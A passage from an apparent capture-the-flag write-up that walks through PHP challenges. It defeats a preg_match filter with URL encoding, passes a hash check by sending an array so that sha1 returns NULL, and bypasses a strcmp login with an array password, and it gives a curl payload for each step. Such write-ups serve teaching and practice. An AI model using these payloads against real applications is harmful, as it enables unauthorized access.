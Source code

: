 <p>The first part, to use <code>user_data</code> parameter, we have to bypass <code>preg_match()</code>:</p>
<pre><code class="language-php">...
if (!preg_match("/user_data/is",$_SERVER['QUERY_STRING']));
...
</code></pre>
<p>It's can be done by <strong>URL encode</strong>.</p>
<pre><code>?user%5fdata[]={input_data}
</code></pre>
<p>The second part is checking hash value:</p>
<pre><code class="language-php">if($shavalue==$data)
</code></pre>
<p>Summary the source code, we have:</p>
<pre><code class="language-php">$_SESSION['data'] = $shavalue.$secret;
$data= $_SESSION['data'];
// BUT
$data !== $shavalue.$secret;
</code></pre>
<p><em><strong>What's wrong?</strong></em><br><br>
This part of code:</p>
<pre><code class="language-php">if (!isset($_SESSION['data'])) { 
    $data="";
    $_SESSION['data']=""; 
}
else{
    $data= $_SESSION['data'];
}
</code></pre>
<p>Will make the value of <code>$data</code> always empty in the first request:</p>
<pre><code>$data = "";
</code></pre>
<p><em><strong>How about $shavalue?</strong></em><br><br>
In <strong>PHP</strong>, <code>sha1(array()) === NULL</code>:<br></p>
<p><img src="pic1.png" alt="pic1"></p>
<p>And<br></p>
<p><img src="pic3.png" alt="pic3"></p>
<p>So, when <code>$data === ""</code> and <code>$shavalue === NULL</code>, we're going to pass this part. The payload:  <br></p>
<pre><code>curl -b "SESSIONID=" "http://server.com/962d13fd2a584598d5f68c4408169e22.php?I=Crewmates&user%5fdata[]="
</code></pre>
<p>It leads us to <code>21232f297a57a5a743894a0e4a801fc3.php</code>.</p>
<h3 id="task3cmplogin">Task 3: CMP Login</h3>
<p>The clue in the login page:</p>
<pre><code>StRcMp CoMpAnY very sercure
</code></pre>
<p><code>strcmp()</code> is <a href="https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/">vulnerable</a>. So the final payload is:</p>
<pre><code class="language-shell">curl -X POST -d "username=admin&pass[]=ab" http://localhost:8003/21232f297a57a5a743894a0e4a801fc3.php
</code></pre>